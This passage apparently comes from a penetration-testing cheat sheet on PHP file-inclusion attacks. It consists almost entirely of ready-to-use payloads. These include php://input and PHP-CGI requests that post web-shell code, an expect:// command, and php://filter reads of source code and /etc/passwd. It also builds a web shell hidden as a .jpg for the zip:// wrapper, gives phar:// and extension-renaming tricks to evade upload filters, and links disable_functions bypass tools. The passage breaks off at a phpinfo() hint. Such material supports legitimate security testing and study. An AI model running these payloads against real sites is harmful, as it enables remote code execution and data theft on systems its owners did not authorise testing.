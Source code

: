 ```bash
http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>
expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
#READING FILES
file:///etc/passwd
# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
http://example.com/index.php?page=zip://shell.jpg%23payload.php
# Loop through file descriptors
curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -

#BURPSUITE
POST /info.php?param=php://input
[HEADERS]
...
<?php system("id"); ?>
```
{% endcode %}

### Useful Functions & disable\_functions/command execution bypass

{% code overflow="wrap" fullWidth="true" %}
```sh
https://github.com/teambi0s/dfunc-bypasser
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass
https://github.com/TarlogicSecurity/Chankro

phar:// -> https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/#wrapper-phar
The phar:// wrapper works with the format phar://[archive path]/[file inside the archive]

Alternative -> explains it is a wrapper that allows archive execution of the file inside the archive. That means we can create a malicious PHP file (file.php) for example, archive it as ZIP (file.zip) and then access it like phar:///file.zip/file.php 

In case some extensions as .zip are blacklisted, rename file.zip to file.txt or any other.
```
{% endcode %}

### phpinfo()

{% hint style="info" %}
Load phpinfo() on a file and see if we can leverage any function to achieve RCE.
